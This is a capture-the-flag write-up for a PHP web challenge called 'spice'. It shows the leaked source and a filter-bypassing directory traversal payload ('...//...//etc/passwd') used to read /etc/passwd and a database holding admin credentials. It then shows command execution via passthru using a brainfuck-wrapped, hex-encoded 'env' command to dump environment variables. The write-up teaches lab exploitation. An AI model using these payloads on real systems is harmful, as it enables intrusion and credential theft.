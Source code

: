 # spice
> Try /spice.php

> engineer1337 : engineer1337

> wait 5 sec, after start (long boot process)

## About the Challenge
We were given a website, and if we access the `/spice.php` endpoint the website will leak the source code

```php
<?php
require __DIR__ . '/vendor/autoload.php';
use \Firebase\JWT\JWT;
use Firebase\JWT\Key;
use \dotzero\Brainfuck;
include_once 'getSecret.php';
include_once 'db.php';

    if (isset($_GET['username']) && isset($_GET['password'])){

        $db = getDb();
        $user = filter_var($_GET['username'], FILTER_SANITIZE_SPECIAL_CHARS);

        $statement = $db->prepare("SELECT password FROM users WHERE username='" . $user . "'");
        $result = $statement->execute();
        
        while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
            $pass  = reset($row);
        }

        if ($pass === $_GET['password']){
            $key = getSecret();
            $payload = ['user' => $user ];
            $jwt = JWT::encode($payload, $key, 'HS256');
            setcookie('jwt', $jwt);
            echo $jwt;
        } else {
            echo "Bad creditionals";
        }
    }
    else{
        if (isset($_GET['bf_base16'])){
        $swag = 123; 
        } else {
           $source = show_source("spice.php", true);
           echo $source;
                
    }
    }
    
    if (isset($_COOKIE['jwt'])){
        if (isset($_GET['bf_base16'])){
        $key = getSecret();
        $decodeJwt = JWT::decode($_COOKIE['jwt'], new Key($key, 'HS256'));
        $decodeJwt = (array) $decodeJwt;
        $user = $decodeJwt['user'];
        if ($user === 'admin'){
            $base_code = $_GET['bf_base16'];
            $code = hex2bin($base_code);

            $bf = new Brainfuck($code);
            $output = $bf->run(true);

            passthru($output); ///It's a joke !
        }
        die();
        }

        $key = getSecret();
        $decodeJwt = JWT::decode($_COOKIE['jwt'], new Key($key, 'HS256'));
        $decodeJwt = (array) $decodeJwt;
        $user = $decodeJwt['user'];
        if ( $user === 'engineer1337'){
            echo "Enter the title of the article to read it ";
            if(isset($_GET['article'])){
                $string = $_GET['article'];
                $article = str_replace("./", '', $string);
                if (!file_exists($article)){
                    echo "<h1>The article does not exist!</h1>";
                } else {
                    echo "Article: " . file_get_contents($article) ;
                }
            }
        } 
    }
?>
```

## How to Solve?
If we check on the source code, we can input a password and username using GET method. We use `engineer1337` as a password and username. So the request will be like this


[Image extracted text: Not secure
b2ce4777-2a18-434d-b604-05d5c1e6b207node omwars org/spice php?username-engineer1337&password-engineer1337
eyJOeXAiOiJKVIQiLCJhbGciOiJIUzIINiJ9.eyJlc2VyljoiZWSnaWSLZXIx MzM3InO.tTNdDatuSiAJSSNYwtY-FvabOoblQOCCgQSnQxa-YAQEnter the title of the article to read it]


After login, we need to add `article` parameter. And there is a `Directory Traversal` vulnerability because there is `file_get_contents` function

```php
if(isset($_GET['article'])){
    $string = $_GET['article'];
    $article = str_replace("./", '', $string);
    if (!file_exists($article)){
        echo "<h1>The article does not exist!</h1>";
    } else {
        echo "Article: " . file_get_contents($article) ;
    }
}
```

But there is a filter, if we input `./` the code will replace it with blank. So to bypass the filter, we can append the payload. The usual payload is `../../../../etc/passwd` and we can bypass that using `...//...//...//...//etc/passwd`


[Image extracted text: 7
C
Not secure
b2ce4777-2a18-434d-b604-05d5c1e6b207.node omwars org/spice php?username-engineer1337&password-engineer1337&article=
JIJI=
JIJIJIJI-I-Iletc_ _
eyJOeXAiOiJKV QiLCJhbGciOiJIUzIINiJ9.eyJlc2VyljoiZWSnaWSIZXIx VzM3InO.tZNdDatuSiAJSSNYwtY-Fva6OoblQOCCgQSnQxa-YAQEnter the title of the article to read it Article: root:x:
bin:x:I:l:bin:/bin:/sbin nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm: var/adm:/sbin/nologin lpx:4:7:lp: var/spoolIpd: Isbin/nologin sync:x:5:O:sync:/sbin:/bin/sync shutdown:
halt:x:7:O.halt: /sbin: /sbin/halt mail:x:8:12:mail: var/mail:/sbin/nologin news:x:9:13:news: usr/lib/news:/sbin nologin Uucp:x:lO:14.uucp: var/spool uucppublic:/sbin/nologin operatorx:Il:O:operat
man:x:13 :man: usr/man:/sbin
Vnologin postmaster:x: 14:12:postmaster: var/mail:/sbin nologin cron:x:[6:l6:cron: var/spoolcron:/sbin nologin ftp:x:2l:2 : var/lib ftp:/sbin nologin sshd.x:22.22:
at:x:25.25.at: var/spool cron atjobs:/sbin/nologin squid:x:31:31:Squid: var/cache/squid:/sbin nologin xfs:x:33.33.X Font Server:Yetc XII fs:/sbin nologin games:x:35.35:games: usr/games: /sbin no
cyrus:x:85.12: UST cyrus:/sbin nologin vpopmail:x:89.89:: var vpopmail:/sbin/nologin ntp:x:123:123.NTP: var/empty:/sbin nologin smmsp:x:209.209.smmsp: var/spool mqueue: /sbin/nologin
guest:x:405:10:guest:/dev/null:/sbin/nologin nobodyx:65534.65534:nobody:/:Isbin nologin WWW-data:x:82:82.Linux User,_ /home WWW-data: /sbin nologin utmpx:100:406:utmp:/home utmp:/b
nginxx:LO1:10:nginx: var lib/nginx:/sbin/nologin]


If we check the `spice.php` source code. There is an interesting file, `db.php` and `getSecret.php` (We will ignore getSecret.php because that file just a rabbit hole). If we check the content of `db.php` we will get another interesting file


[Image extracted text: C
Not secure
view-source b2ce4777-2a18-434d-b604-05d5c1e6b207 nodeomwars org/spice php?username-engineer1337&password-engineer1337&article=_
JIJIJIIII
rap
yJOeXAioiJKViQiLCJhbGciOiJIUzIlNiJ9.eyJlcZVyIjoiZWSnaNSIZXIxMzM3Ine.tZNdDatuSiAJSSNYwtY-Fva6ooblqaccgQSnQxa-yAQEnter
the
title of
the
article to
read
it
Article:
<?php
function
Sdb
new
SQLite3("vuln-php
SQLITE3_OPEN_READWRITE) ;
return
Sdb;
getDb(]


There is a SQLite database file, if we check the content of the file by accessing `/spice.php?username=engineer1337&password=engineer1337&article=...//...//...//...//...//...//...//...//...//var/www/html/vuln-php.db` we will get administrator username and password


[Image extracted text: 34d-b604-05d5c1e6b207node omwars org/spice php?username-engineer1337&password-engineer1337&article=_
PEEE++EYtablesqlite_sequencesqlite_sequenceECREATE
TABLE
sglite_sequence(name
seq)@
@EEEEEEqtableusersuser
22@ %%engineerl337engineer1337220
@SadminjES28Y9EZStgyAao8V8C
@22]


Now, use the admin credential as username and password.


[Image extracted text: 6 7
C
Not secure
b2ce4777-2a18-434d-b604-05d5c1e6b207.node omwarsorg/spice php?username-
admin&password-jES28Y9EZStgyAao8V8C
eyJOeXAiOiJKV QiLCJhbGciOiJIUzIINiJ9.eyJlc2VyljoiYWRta W4ifQ.363.Mzml67-SSOaLSYOSKOONjID9sHYGrXps79s4O1Q]


Because we now login as administrator, we can execute an OS command using `bf_base16` parameter. Why? Check the code below, because we already login as administrator, we can execute OS command using `passthru` PHP function

```php
if ($user === 'admin'){
    $base_code = $_GET['bf_base16'];
    $code = hex2bin($base_code);

    $bf = new Brainfuck($code);
    $output = $bf->run(true);

    passthru($output); ///It's a joke !
}
```

Because the code using `Brainfuck()` and `hex2bin()`. We need to wrap our payload using brainfuck first and then encode it using hex.

For example I want to run `env` command. The brainfuck will look like this
```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+.+++++++++.++++++++.
```

And then change it to hex
```
2b2b2b2b2b2b2b2b2b2b5b3e2b3e2b2b2b3e2b2b2b2b2b2b2b3e2b2b2b2b2b2b2b2b2b2b3c3c3c3c2d5d3e3e3e3e2b2e2b2b2b2b2b2b2b2b2b2e2b2b2b2b2b2b2b2b2e
```

Send the payload to the server using `bf_base16` parameter and you will get the flag because the flag was located on environment var


[Image extracted text: 7
C
Not secure
b2ce4777-2a18-434d-b604-05d5c1e6b207.nodeomwars org/spice php?username-admin&password-jES28Y9EZStgyAaoxv8c&bf_base16-2b2
eyJOeXAiOiJKV QiLCJhbGcOiJIUzIINiJ9.eyJlc2VyljoiYWRta W4ifQ.363.Mzml67-SSOaLSYOSKOONjID9ZsHYGrXps79s-OlQPHP_
EXTRA CONFIGURE
ARGS=
group-WWW-data ~~disable-cgi USER-nginx SUPERVISOR_GROUP_NAME-php-fpm HOSTNAME-2bs9blc63elc PHP_INI_DIR- usr/localetc php SHLVL=2 HOME
PHP_CFLAGS--fstack-protector-strong -fpic -fpie -02 -D_LARGEFILE_SOURCE -D_FILE
OFFSET
BITS-64 PHP  VERSION=7.44.15 COMPOSER HOME= usrllo
GPG_KEYS-42670A 7FE4DO44ICSE4632349E4FDCO74A4EFOZD SAS2SS078IFZSS60SBFSISFC9]ODEB46FS3EA312 PHP_ASC_URL-https:/ WWWphp net distribut_
strong -fpic -fpie -02 -D_LARGEFILE_SOURCE -D_FILE_OFFSET
BITS-64 PHP_URL-https:
WWWV
php net/distributions php-7.4.15.tarxz
PATH-J usr/local/sbin: uSt/local bin: uSr/sbin: usr bin:/sbin:/bin:/usr/local composer bin: usr/local/composer vendor bin LD_PRELOAD- usr/lib preloadable_libiconv.so phy
SUPERVISOR_SERVER_
URL-unix:// dev/shmn/supervisor sock SUPERVISOR_
PROCESS
NAME-php-fpm PWD-Ivar www/html PHPIZE_DEPS-autoconf dpkg-dev
PHP_SHA256-96859c65f0cf7b3eff9d4a28cfab719563d36a1db3c20d874a79652c44d43cb8 FLAG-OmWars {fcd9ead7-575c-4d3f-6277-a8da7c509a97}]


```
OmWars{fcd9ead7-575c-4d3f-b277-a8da7c509a97}
```